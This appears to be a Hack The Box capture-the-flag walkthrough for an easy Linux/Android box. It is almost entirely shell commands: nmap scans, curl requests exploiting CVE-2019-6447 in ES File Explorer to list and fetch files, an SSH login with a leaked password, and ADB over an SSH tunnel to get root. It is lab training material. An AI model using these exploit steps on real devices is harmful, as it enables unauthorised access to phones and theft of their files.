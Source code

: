 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.247
nmap -p 2222,38925,42135,59777 -sCV -oA scans/nmap-tcpscripts 10.10.10.247
```

---

## 🛡️ CVE-2019-6447 — ES File Explorer
```bash
# Test access
curl 10.10.10.247:59777

# Enumerate files
curl 10.10.10.247:59777 -d '{"command": "listFiles"}'

# List images (look for creds.jpg)
curl 10.10.10.247:59777 -d '{"command": "listPics"}'

# Download image with password
python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
```

---

## 🗑️ [Shell](SSH) as kristi
```bash
sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@10.10.10.247

# Look for user.txt
cd /storage/emulated/0
cat user.txt
```

---

## 🤎 Enumeration as kristi
```bash
netstat -tnlp  # confirm port 5555 is open
```

---

## ⚖️ ADB Setup (Port Forwarding)
```bash
# Reconnect SSH with port forward
ssh -L 5555:localhost:5555 -p 2222 kristi@10.10.10.247

# On local machine
adb connect localhost:5555
adb devices
adb shell
```

---

## 🤐 Root Access via ADB
```bash
adb shell
su

# Locate and read flag
find / -name root.txt 2>/dev/null
cat /data/root.txt
```

---

## 📑 Resources
- CVE-2019-6447: ES File Explorer RCE
- ADB: Android Debug Bridge over SSH Tunnel
- ES File Explorer Exploit Script: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln